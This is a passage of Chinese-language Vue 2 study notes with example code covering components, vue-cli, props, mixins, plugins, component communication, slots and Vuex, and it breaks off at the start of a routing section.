            console.log('beforeMount','------>n='+this.n +" add()方法="+this.add())
        },

        /**
         * 此时:
         1、页面呈现的是经过vue编译的DOM。
         2、对DOM的操作均有效(尽可能避免)此时初始化过程结束，一般在此进行:开启定时器、发送网络请求、订阅消息、绑定自定义事件等初始化操作
         */
        mounted(){
            console.log('mounted','------>n='+this.n +" add()方法="+this.add())
        },
        /**
         * 此时:数据是最新的，但页面是旧的。即页面尚未和数据保持同步
         */
        beforeUpdate(){
            console.log('beforeUpdate','------>n='+this.n +" add()方法="+this.add())
        },
        /**
         * 此时:数据是最新的，页面也是最新的，即:页面和数据保持同步
         */
        updated(){
            console.log('updated')
        },

        /**
         * 此时:vm中所有的:data、methods、指令等等，都处于可用状态，马上要执行销毁过程，一般在此阶段:关闭定时器、取消订阅消息、解绑自定义事件等收尾操作
         */
        beforeDestroy(){
            debugger
            console.log('beforeDestroy')
        },
        destroyed(){
            debugger
            console.log('destroyed')
        }

    });


</script>
</html>
```


**小结**

vm的一生(vm的生命周期):

- 将要创建===》调用beforecreate凼数
- 创建完毕===》调用created幽数。
  将要挂载===》调用beforeMount囪数。
- (重要)挂载完毕===》调用mounted函数。【重要的钩子】
- 更新调用===》beforeUpdate凼数。
- 更新完毕===》调用updated函数。
- (重要)将要销毁===》调用beforeDestroy数。【重要的钩子】。
- 销毁完毕===》调用destroyed函数。

### 组件的理解

**模块**
理解:向外提供特定功能的js程序，一般就是一个js 文件
为什么:js 文件很多很复杂-
作用: 复用js，简化js 的编写，提高js 运行效率

**组件**
理解:用来实现局部(特定)功能效果的代码集合(html/css/js/image.....)
为什么:一个界面的功能很复杂
作用:复用编码，简化项目编码，提高运行效率

**模块化**

当应用中的js 都以模块来编写的，那这个应用就是一个模块化的应用。

**组件化**

当应用中的功能都是多组件的方式来编写的，那这个应用就是一个
且件化的应用


### 非单文件组件

**非单文件组件:**一个文件中包含有n个组件
**单文件组件:**一个文件中只包含有1个组件。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>非单文件组件</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <!--第三步，编写组件标签-->
        <school></school>
        <hr>
        <student></student>
        <hello></hello>
    </div>
    ======================================================================
    <div id="root2">
        <!--第三步，编写组件标签-->
        <hello></hello>
    </div>


</body>

<script type="text/javascript">
 Vue.config.productionTip = false

 // 第一步：创建组件
   const  school = Vue.extend({
       template:`
               <div>
                   <h2>学校名称：{{schoolName}}</h2>
                   <h2>学校地址：{{schoolAddress}}</h2>
               </div>
       `,
       data() {
           return {
               schoolName: '深圳大学',
               schoolAddress: '广东省深圳市'
           }
       }
   })

 const  student = Vue.extend({
     template:`
               <div>
                   <h2>学生姓名：{{studentName}}</h2>
                   <h2>学生年龄：{{studentAge}}</h2>
               </div>
       `,
     data() {
         return {
             studentName: '张三',
             studentAge: 36
         }
     }
 })


 //------------创建全局组件---------------------------------
 // 第一步：创建组件
 const  hello = Vue.extend({
     template:`
               <div>
                   <h2>Hello</h2>
               </div>
       `,
 })

 // 注册组件
 Vue.component('hello',hello);


 new Vue({
     el: '#root2',
     //第二步：注册组件
     components:{
         school:school,
         student:student
     }


 });
 
 //---------------------------------------------


 const vm = new Vue({
        el: '#root',
        //第二步：注册组件
        components:{
            school:school,
            student:student
        }


    });


</script>
</html>
```


**Vue中使用组件的三大步骤:**

1.定义组件(创建组件)
2.注册组件
3.使用组件(写组件标签)

如何定义一个组件?
使用Vue.extend(options)创建，奖options利new Vue(options)时传入的那个options几乎一样，但也有点区別:
区别如下:
1.e1不要写，为什么?- 最终所有的组件都要经过一个vm的管理，由vm中的e1决定服务哪个容器。
2.data必须写成函数，为什么?--避免组件被复用时，数据存在引用关系。
备注:使用template可以配置组件结构。

如何注册组件?
1.局部注册:靠new Vue的时候传入components选项
2.全局注册:称Vue.component('维件名',维件)

编写组件标签:
示例：<school></school>

### 组件需要注意的几个点

1.关于组件名:
	一个单词组成:
		第一种写法(首字母小写):schoo1
		第二种写法(首字母大写):Schoo1
	多个单词组成:
		第一种”法(kebab-case命名):my-school
		第二种写法(Came1Case命名):MySchool(需要Vue脚手架支持)
各注:
(1).组件名尽可能回避HTML中已有的元素名称，例如:h2、H2都不行
(2).可以使用name配置项指定组件在开发者工具中呈现的名字。

2.关于组件标签:
	第一种写法:<school></school>
	第二种写法:<school/>
	备注:不使用脚手架时，<schoo1/>会导致后续组件不染。
3.一个简写方式:
	const school =Vue.extend(options)可简写为:const school = options

```HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>组件的几个注意点</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <!--第三步，编写组件标签-->
        <my-school></my-school>
    </div>


</body>

<script type="text/javascript">
 Vue.config.productionTip = false

 // 第一步：创建组件
   const  school = {
       template:`
               <div>
                   <h2>学校名称：{{schoolName}}</h2>
                   <h2>学校地址：{{schoolAddress}}</h2>
               </div>
       `,
       data() {
           return {
               schoolName: '深圳大学',
               schoolAddress: '广东省深圳市'
           }
       }
   }


 const vm = new Vue({
        el: '#root',
        //第二步：注册组件
        components:{
            'my-school':school,
        }


    });


</script>
</html>
```


### 组件嵌套

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>组件嵌套</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">

    </div>


</body>

<script type="text/javascript">
 Vue.config.productionTip = false

 // 第一步：创建组件
 const  student = Vue.extend({
     template:`
               <div>
                   <h2>学生姓名：{{studentName}}</h2>
                   <h2>学生年龄：{{studentAge}}</h2>
               </div>
       `,
     data() {
         return {
             studentName: '张三',
             studentAge: 36
         }
     }
 })


 const  school = Vue.extend({
       template:`
               <div>
                   <h2>学校名称：{{schoolName}}</h2>
                   <h2>学校地址：{{schoolAddress}}</h2>
                   <student></student>
               </div>
       `,
       data() {
           return {
               schoolName: '深圳大学',
               schoolAddress: '广东省深圳市'
           }
       },
       components:{
           student:student
       }
   })


 const  hello = Vue.extend({
     template:`
               <div>
                   <h2>{{name}}</h2>
               </div>
       `,
     data() {
         return {
             name: 'Hello',
         }
     }
 })

 const app = Vue.extend({
     template:`
               <div>
                   <hello></hello>
                   <school></school>
               </div>
       `,
     components:{
         school:school,
         hello:hello
     }
 })


 const vm = new Vue({
        template:'<app></app>', <!--第三步，编写组件标签-->
        el: '#root',
        //第二步：注册组件
        components:{
            app:app,
        }


    });


</script>
</html>
```


### VueComponet构造函数

关于VueComponent:
1.schoo1组件本质是一个名为VueComponent的构造的数，且不是程序员定义的，是Vue.extend生成的。
2.我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建schoo1组件的实例对象,即Vue帮我们执行的:newVuecomponent(options)
3.特别注意:每次调用Vue.extend，返网的都是一个全新的VueComponent!!!!
4.关于this指向:
(1).组件配置中:
	data函数、methods中的所数、watch中的函数、computed中的的数它们的this均是【Vuecomponent实例对象】
(2).new Vue(options)置中:
	data函数、methods中的函数、watch中的函数、computed中的函数它们的this均是【Vue实例对象】
5.VueComponent的实例对象，以后简称vc(也可称之为:组件实例对象)。
Vue的实例对象，以后简称vm.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>VueComponent构造函数</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <hello></hello>
        <school></school>
    </div>


</body>

<script type="text/javascript">
 Vue.config.productionTip = false

 // 第一步：创建组件

 const  school = Vue.extend({
       template:`
               <div>
                   <h2>学校名称：{{schoolName}}</h2>
                   <h2>学校地址：{{schoolAddress}}</h2>
               </div>
       `,
       data() {
           return {
               schoolName: '深圳大学',
               schoolAddress: '广东省深圳市'
           }
       },

   })

 console.log('@',school);

 const  hello = Vue.extend({
     template:`
               <div>
                   <h2>{{name}}</h2>
               </div>
       `,
     data() {
         return {
             name: 'Hello',
         }
     }
 })
 console.log('@',hello);

 const vm = new Vue({
        el: '#root',
        //第二步：注册组件
        components:{
            school:school,
            hello:hello
        }


    });


</script>
</html>
```


### 一个重要内置关系


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>一个重要内置关系</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
    </div>


</body>

<script type="text/javascript">
 Vue.config.productionTip = false

// 定义一个构造函数
 function Demo(){
     this.a = 1
     this.b = 2
 }

 // 创建一个Demo实例对象
 const d = new Demo()


 console.log(Demo.prototype) // 显示原型属性
 console.log(d.__proto__)// 隐式原型属性

 // 程序员通过显示原型属性操作原型对象，追加一个x属性，值为99
 Demo.prototype.x = 99

 const vm = new Vue({
        el: '#root',

    });
 console.log(Demo.prototype === d.__proto__)

 console.log('@',d.__proto__.x)
 console.log(d)


 function Person(){
 }
 function Dog(){
 }
 const  p = new Person()
 const  d2 = new Dog()
 console.log(p)
 console.log(d2)

</script>
</html>
```


1.一个重业的内置关系:Vuecomponent.prototype.proto=== Vue.prototype
2.为什么要有这个关系:让组件实例对象(ve)可以访问到Vue原型上的属性、方法。

### 单文件组件

创建测试学校组件TestSchool.vue

```vue
<template>
    <div class="demo">
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
    </div>

</template>

<script>
    export default {
        name:'TestSchool',
        data() {
            return {
                name: '深圳大学',
                address: '广东省深圳市'
            }
        }
    }

</script>

<style>
    .demo{
        background-color: antiquewhite;
    }

</style>
```

创建测试学生组件TestStudent.vue

```vue
<template>
    <div>
        <h2>学生名称：{{name}}</h2>
        <h2>学生年龄：{{age}}</h2>
    </div>
</template>

<script>
    export default {
        name:'TestStudent',
        data() {
            return {
                name: '深圳大学',
                age: 19
            }
        }
    }

</script>

```

App.vue

```vue
<template>
  <div id="app">
    
    <TestSchool/>
    <TestStudent/>
  </div>
</template>

<script>

import TestSchool from './components/TestSchool.vue'
import TestStudent from './components/TestStudent.vue'

export default {
  name: 'App',
  components: {
    TestSchool,
    TestStudent
  }
}
</script>


```

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App组件，它是所有组件的父组件
import App from './App.vue'
//关闭vue的生产提示
Vue.config.productionTip = false

//创建Vue实例对象---vm
new Vue({
  //将App组件放入容器中
  render: h => h(App),
}).$mount('#app')

```

index.html

```html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!--针对IE浏览器的一个特殊配置，含义是让IE浏览器以最高的渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!--开启移动端的理想视口-->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!--配置页签图标-->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!--配置网页标题 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>

  <!--当浏览器不支持js时noscript中的元素就会被渲染-->
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>

```

## Vue-cli

### 创建脚手架

**说明**

Vue脚手架是Vue官网提供的标准开发工具（开发平台）

文档: https://cli.vuejs.org/zh/








**具体步骤**

设置镜像，下载缓慢请配置 npm 淘宝镜像

详细配置https://npmmirror.com/

**前提**

npm config set registry https://registry.npmmirror.com



**第一步(仅第一次执行):全局安装@vue/cli**
npm install -g @vue/cli



**第二步:切换到你要创建项目的目录，然后使用命令创建项目**
vue create 项目名称

示例：



**第三步:启动项目**
npm run serve



浏览器访问http://localhost:8080/

备注:
1.如出现下载缓慢请配置 npm 淘宝镜像

npm config set registry https://registry.npmmirror.com

2.Vue 脚手架隐藏了所有 webpack相关的配置，若想查看具体的 webpakc 配查，请执
行:vue inspect > output.js

### 脚手架文件结构

```
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   │── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```

**vue.config.js**

使用vue inspect > output.js可以查看到Vue脚手架的默认配置。
使用vue.config.js可以对脚手架进行个性化定制，详情见:https://cli.vuejs.org/zh

### ref属性

1.被用来给元素或子组件注册引用信息(id的替代者)
2.应用在htm1标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象(vc)
3.使用方式:
	打标识:<h1 ref="xxx">.....</h1>或<School ref="xxx"></School>
	获取:this.$refs.xxx




### props配置

功能:让组件接收外部传过来的数据
**(1).传递数据:**
<Demo name="xxx"/>
**(2).接收数据:**
第一种方式(只接收):
props:['name"]
第二种方式(限制类型):
props:{
name:Number
第三种方式(限制类型、限制必要性、指定默认值):
props:{
 	 name:{
	  type:string，//类型
	  required:true，//必要性
 	 default:'老王’//默认值

​	}

}

备注:
props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。

App.vue

```vue
<template>
  <div id="app">
    

    <h1 v-text="msg" ref="title"></h1>

    <!--age="20"：age的值字符串   :age="20"  age的值是数字类型-->
   <!-- <TestStudent name="张三" sex="男" age="20"/>-->
    <TestStudent name="张三" sex="男" :age="20"/>
    <TestStudent name="张三" sex="男" />

    <!--
    如果name属性没有的话，前端报如下错误
    vue.runtime.esm.js?c320:4625 [Vue warn]: Missing required prop: "name"

    found in

    -&ndash;&gt; <TestStudent> at src/components/TestStudent.vue
    <App> at src/App.vue
      <Root>-->
    <!--<TestStudent  sex="男" :age="20"/>-->
  </div>
</template>
<script>

import TestStudent from './components/TestStudent.vue'

export default {
  name: 'App',
  components: {
    TestStudent,
  },
  data(){
    return {
      msg:'欢迎学习Vue'
    }
  },
  methods:{

  }
}
</script>


```

TestStudent.vue

```vue
<template>
    <div class="demo">
        <h1 v-text="msg"></h1>
        <h2>学生姓名：{{name}}</h2>
        <h2>学生性别：{{sex}}</h2>
        <h2>学生年龄：{{myAge}}</h2>

        <button @click="updateAge">尝试修改接收到的年龄</button>
    </div>

</template>

<script>
    export default {
        name:'TestStudent',
        data() {
            return {
                msg: '我是一个学生',
                myAge:this.age,
            }
        },
        methods:{
            updateAge(){
                this.myAge ++
            }
        },
        // props:['name','sex','age'] // 简单声明接收

        // 接受同时对数据类型限制
        // props:{
        //     name:String,
        //     sex:String,
        //     age:Number
        // }

        //接收的同时对数据:进行类型限制+默认值的指定+必要性的限制

        props:{
            name:{
                type:String, // 字符串类型
                required:true, // 必须字段
            },
            age:{
                type:Number, // 数字类型
                default:99, // 默认值
            }
            ,
            sex:{
                type:String, // 字符串类型
                required:true, // 必须字段
            }
        }

    }

</script>

<style>
    .demo{
        background-color: antiquewhite;
    }

</style>
```



### mixin混入

功能:可以把多个组件共用的配置提取成一个混入对象使用方式:
第一步定义混合，例如:
{
data(){....},
methods:{....}
}

第二步使用混入，例如:
(1).全局混入:Vue.mixin(xxx)
(2).局部混入:mixins:['xxx']




mixin.js

```js
 export const hunhe = {
   methods:{
      showName(){
         alert(this.name)
      }
   },
    mounted(){
      console.log('你好啊！')
    },
}

 export const hunhe2 = {
     data(){
         return {
             x:100,
             y:200
         }
     },


 }
```

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App组件，它是所有组件的父组件
import App from './App.vue'
//关闭vue的生产提示
Vue.config.productionTip = false


import {hunhe,hunhe2} from './mixin'

Vue.mixin(hunhe)
Vue.mixin(hunhe2)


//创建Vue实例对象---vm
new Vue({
  //将App组件放入容器中
  render: h => h(App),
}).$mount('#app')

```

TestSchool.vue

```vue
<template>
    <div class="demo">
        <h2 @click="showName">学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
    </div>

</template>

<script>

    // import {hunhe,hunhe2} from '../mixin'

    export default {
        name:'TestSchool',
        data() {
            return {
                name:'湖南大学',
                address:'广东深圳市',
                x:999
            }
        },
        // methods:{
        //     showName(){
        //         alert(this.name)
        //     }
        // },
        // mixins:[hunhe,hunhe2],
        mounted(){
            console.log('你好啊!!!!!!!!!!!！')
        },
    }

</script>

<style>
    .demo{
        background-color: antiquewhite;
    }

</style>
```

### 插件

1. 功能：用于增强Vue

2. 本质：包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据。

3. 定义插件：

   ```
   对象.install = function (Vue, options) {
       // 1. 添加全局过滤器
       Vue.filter(....)
   
       // 2. 添加全局指令
       Vue.directive(....)
   
       // 3. 配置全局混入(合)
       Vue.mixin(....)
   
       // 4. 添加实例方法
       Vue.prototype.$myMethod = function () {...}
       Vue.prototype.$myProperty = xxxx
   }
   ```

   

4. 使用插件：`Vue.use()`

### scoperd样式

查看插件版本

```
npm view 插件名称 versions
```

示例：

```
npm view less-loader versions
```

根据版本安装插件

```
npm i 插件名称@版本号
```

示例

```
npm i less-loader@8
```

1. 作用：让样式在局部生效，防止冲突。
   2. 写法：`<style scoped>`

### 总结TodoList案例

1. 组件化编码流程：

   (1).拆分静态组件：组件要按照功能点拆分，命名不要与html元素冲突。

   (2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：

   1).一个组件在用：放在组件自身即可。

   2). 一些组件在用：放在他们共同的父组件上（状态提升）。

   (3).实现交互：从绑定事件开始。

2. props适用于：

   (1).父组件 ==> 子组件 通信

   (2).子组件 ==> 父组件 通信（要求父先给子一个函数）

3. 使用v-model时要切记：v-model绑定的值不能是props传过来的值，因为props是不可以修改的！

4. props传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做。

### webStorage

1. 存储内容大小一般支持5MB左右（不同浏览器可能还不一样）

2. 浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。

3. 相关API：

   1. `xxxxxStorage.setItem('key', 'value');` 该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。

   2. `xxxxxStorage.getItem('person');`

      该方法接受一个键名作为参数，返回键名对应的值。

   3. `xxxxxStorage.removeItem('key');`

      该方法接受一个键名作为参数，并把该键名从存储中删除。

   4. ` xxxxxStorage.clear()`

      该方法会清空存储中的所有数据。

4. 备注：

   1. SessionStorage存储的内容会随着浏览器窗口关闭而消失。
   2. LocalStorage存储的内容，需要手动清除才会消失。
   3. `xxxxxStorage.getItem(xxx)`如果xxx对应的value获取不到，那么getItem的返回值是null。
   4. `JSON.parse(null)`的结果依然是null。

### 组件的自定义事件

1. 一种组件间通信的方式，适用于：**子组件 ===> 父组件**

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（事件的回调在A中）。

3. 绑定自定义事件：

   1. 第一种方式，在父组件中：`` 或 ``

   2. 第二种方式，在父组件中：

      ```
      <Demo ref="demo"/>
      ......
      mounted(){
         this.$refs.xxx.$on('atguigu',this.test)
      }
      ```

      

   3. 若想让自定义事件只能触发一次，可以使用`once`修饰符，或`$once`方法。

4. 触发自定义事件：`this.$emit('atguigu',数据)`

5. 解绑自定义事件`this.$off('atguigu')`

6. 组件上也可以绑定原生DOM事件，需要使用`native`修饰符。

7. 注意：通过`this.$refs.xxx.$on('atguigu',回调)`绑定自定义事件时，回调要么配置在methods中，要么用箭头函数，否则this指向会出问题！

### 全局事件总线（GlobalEventBis）

1. 一种组件间通信的方式，适用于任意组件间通信。

2. 安装全局事件总线：

   ```
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   }) 
   ```

   

3. 使用事件总线：

   1. 接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的回调留在A组件自身。

      ```
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.$bus.$on('xxxx',this.demo)
      }
      ```

      

   2. 提供数据：`this.$bus.$emit('xxxx',数据)`

4. 最好在beforeDestroy钩子中，用$off去解绑当前组件所用到的事件。

### 消息定于与发布（pubsub）

1. 一种组件间通信的方式，适用于任意组件间通信。

2. 使用步骤：

   1. 安装pubsub：`npm i pubsub-js`

   2. 引入: `import pubsub from 'pubsub-js'`

   3. 接收数据：A组件想接收数据，则在A组件中订阅消息，订阅的回调留在A组件自身。

      ```
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```

      

   4. 提供数据：`pubsub.publish('xxx',数据)`

   5. 最好在beforeDestroy钩子中，用`PubSub.unsubscribe(pid)`去取消订阅。

### nextTick

1. 语法：`this.$nextTick(回调函数)`
2. 作用：在下一次 DOM 更新结束后执行其指定的回调。
3. 什么时候用：当改变数据后，要基于更新后的新DOM进行某些操作时，要在nextTick所指定的回调函数中执行

### Vue封装的过度与动画

1. 作用：在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名。

2. 写法：

   1. 准备好样式：

      - 元素进入的样式：
        1. v-enter：进入的起点
        2. v-enter-active：进入过程中
        3. v-enter-to：进入的终点
      - 元素离开的样式：
        1. v-leave：离开的起点
        2. v-leave-active：离开过程中
        3. v-leave-to：离开的终点

   2. 使用``包裹要过度的元素，并配置name属性,注意如果配置了appear属性的话就代表一开始挂载真实dom的时候就开启动画的效果：

      ```
      <transition name="hello" appear>
      	<h1 v-show="isShow">你好啊！</h1>
      </transition>
      ```

      

   3. 备注：若有多个元素需要过度，则需要使用：<transition-group>，且每个元素都要指定`key`值。

第三方插件

https://animate.style/

### vue脚手架配置代理

安装axios

```
npm i axios
```

**方法一**

 在vue.config.js中添加如下配置：

```js
devServer:{
  proxy:"http://localhost:5000"
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：不能配置多个代理，不能灵活的控制请求是否走代理。
3. 工作方式：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）

**方法二**

 编写vue.config.js配置具体代理规则：

```js
module.exports = {
	devServer: {
      proxy: {
      '/api1': {// 匹配所有以 '/api1'开头的请求路径
        target: 'http://localhost:5000',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api1': ''} ////把请求中含有的api1替换成空字符串
      },
      '/api2': {// 匹配所有以 '/api2'开头的请求路径
        target: 'http://localhost:5001',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api2': ''} ////把请求中含有的api2替换成空字符串
      }
    }
  }
}
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```


说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。

### 插槽

1. 作用：让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于 **父组件 ===> 子组件** 。

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   1. 默认插槽：

      ```
      父组件中：
              <Category>
                 <div>html结构1</div>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot>插槽默认内容...</slot>
                  </div>
              </template>
      ```

      

   2. 具名插槽：

      ```
      父组件中：
              <Category>
                  <template slot="center">
                    <div>html结构1</div>
                  </template>
      
                  <template v-slot:footer>
                     <div>html结构2</div>
                  </template>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot name="center">插槽默认内容...</slot>
                     <slot name="footer">插槽默认内容...</slot>
                  </div>
              </template>
      ```

      

   3. 作用域插槽：

      1. 理解：数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。（games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定）

      2. 具体编码：

         ```
         父组件中：
         		<Category>
         			<template scope="scopeData">
         				<!-- 生成的是ul列表 -->
         				<ul>
         					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
         				</ul>
         			</template>
         		</Category>
         
         		<Category>
         			<template slot-scope="scopeData">
         				<!-- 生成的是h4标题 -->
         				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
         			</template>
         		</Category>
         子组件中：
                 <template>
                     <div>
                         <slot :games="games"></slot>
                     </div>
                 </template>
         		
                 <script>
                     export default {
                         name:'Category',
                         props:['title'],
                         //数据在子组件自身
                         data() {
                             return {
                                 games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                             }
                         },
                     }
                 </script>
         ```

         

### Vuex


安装vuex插件

```
npm i vuex@3
```

#### 1.概念

 在Vue中实现集中式状态（数据）管理的一个Vue插件，对vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。

#### 2.何时使用？

 多个组件需要共享数据时

#### 3.搭建vuex环境


1. 创建文件：`src/store/index.js`

   ```
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //应用Vuex插件
   Vue.use(Vuex)
   
   //准备actions对象——响应组件中用户的动作
   const actions = {}
   //准备mutations对象——修改state中的数据
   const mutations = {}
   //准备state对象——保存具体的数据
   const state = {}
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state
   })
   ```

   

2. 在`main.js`中创建vm时传入`store`配置项

   ```
   ......
   //引入store
   import store from './store'
   ......
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	store
   })
   ```

   

#### 4.基本使用


1. 初始化数据、配置`actions`、配置`mutations`，操作文件`store.js`

   ```
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //引用Vuex
   Vue.use(Vuex)
   
   const actions = {
       //响应组件中加的动作
   	jia(context,value){
   		// console.log('actions中的jia被调用了',miniStore,value)
   		context.commit('JIA',value)
   	},
   }
   
   const mutations = {
       //执行加
   	JIA(state,value){
   		// console.log('mutations中的JIA被调用了',state,value)
   		state.sum += value
   	}
   }
   
   //初始化数据
   const state = {
      sum:0
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

   

2. 组件中读取vuex中的数据：`$store.state.sum`

3. 组件中修改vuex中的数据：`$store.dispatch('action中的方法名',数据)` 或 `$store.commit('mutations中的方法名',数据)`

   > 备注：若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写`dispatch`，直接编写commit

#### 5.getters的使用


1. 概念：当state中的数据需要经过加工后再使用时，可以使用getters加工。

2. 在`store.js`中追加`getters`配置

   ```
   ......
   
   const getters = {
       bigSum(state){
           return state.sum * 10
       }
   }
   
   //创建并暴露store
   export default new Vuex.Store({
       ......
       getters
   })
   ```

   

3. 组件中读取数据：`$store.getters.bigSum`

#### 6.四个map方法的使用


1. **mapState方法：**用于帮助我们映射`state`中的数据为计算属性

   ```
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),
            
       //借助mapState生成计算属性：sum、school、subject（数组写法）
       ...mapState(['sum','school','subject']),
   },
   ```

   

2. **mapGetters方法：**用于帮助我们映射`getters`中的数据为计算属性

   ```
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),
   
       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

   

3. **mapMutations方法：**用于帮助我们生成与`mutations`对话的方法，即：包含`$store.commit(xxx)`的函数

   ```
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
       
       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

   

> 备注：mapActions与mapMutations使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

#### 7.模块化+命名空间


1. 目的：让代码更好维护，让多种数据分类更加明确。

2. 修改`store.js`

   ```
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }
   
   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }
   
   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

   

3. 开启命名空间后，组件中读取state数据：

   ```
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

   

4. 开启命名空间后，组件中读取getters数据：

   ```
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

   

5. 开启命名空间后，组件中调用dispatch

   ```
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

   

6. 开启命名空间后，组件中调用commit

   ```
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

### 路由

1. 理解： 一个路由（route）就是一组映射关系（key - value），多个路由需要路由器（router）进行管理。
2. 前端路由：key是路径，value是组件。

#### 1.基本使用

1. 安装vue-router，命令：`npm i vue-router`

2. 应用插件：`Vue.use(VueRouter)`

3. 编写router配置项:

   ```
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
